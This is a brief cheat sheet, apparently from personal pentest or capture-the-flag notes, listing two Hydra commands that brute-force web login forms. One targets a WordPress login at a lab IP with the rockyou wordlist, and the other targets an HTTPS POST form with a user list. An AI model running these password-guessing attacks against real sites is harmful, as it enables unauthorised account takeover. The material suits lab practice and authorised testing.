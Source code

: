# hydra

## Hydra Usage

### Post attack

```csharp
hydra -l notch -P /usr/share/wordlists/rockyou.txt 10.10.10.37 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

### `Https POST`

```shell
hydra -L users -p PASSWORD <IP> https-post-form "/auth/login:module=auth&action=login&username=^USER^&password=^PASS^:Invalid" -fV  -e nsr 
```

